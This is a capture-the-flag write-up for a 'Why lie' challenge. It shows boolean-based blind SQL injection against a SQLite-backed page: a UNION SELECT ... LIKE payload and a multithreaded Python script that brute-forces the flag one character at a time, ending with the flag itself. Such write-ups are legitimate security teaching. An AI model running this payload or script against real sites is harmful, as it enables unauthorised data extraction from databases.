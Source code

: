 # Why lie: Blind SQL injection (500 points)

![Alt text](_images/image.png)

Given the script shows that it will output only Good guess! and Nope if our sql statement query fetches any data or not. So we can use blind sql injection to get the flag by boolean based.

![Alt text](_images/image-1.png)

Using cyberfox with hackbar extension we can easily make a payload. The payload above was showed as an example from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md). 

Blind SQL injection process:
- Find the number of columns
- Find the table name
- Find the column name
- Analyze what we can do next

As we have already found the number of columns and the table name is `secret`.

![Alt text](_images/image-2.png)

Finding the column name needs a bit of guessing. I tried `message` but shows error so I tried `flag` and it worked.

![Alt text](_images/image-3.png)

Now we can use the column name to get the flag by bruteforcing it with output based "Good guess!" and "Nope".

The payload: `guess=1 UNION SELECT 1 FROM secret where flag like "UDCTF{%";`

```python
import requests
import concurrent.futures

url = "https://bluehens-blindsql.chals.io/index.php?guess=1 UNION SELECT 1 FROM secret where flag like '" 

charset = "abcdefghijklmnopqrstuvwxyz0123456789_!@#$%^&*()-=+{}[]|;:'\",.<>?/`~"

flag = "UDCTF{"

def check_character(char):
    payload = f"{url}{flag}{char}%'"
    response = requests.get(payload)
    return "Good guess!" in response.text

with concurrent.futures.ThreadPoolExecutor() as executor:
    while True:
        futures = [executor.submit(check_character, char) for char in charset]
        concurrent.futures.wait(futures)
        
        found = False
        for char, future in zip(charset, futures):
            if future.result():
                flag += char
                found = True
                print(flag)
                break
        
        if not found or flag[-1] == "}":
            break

print("Flag:", flag)
```

**FLAG:** UDCTF{l1k3_a_b4t}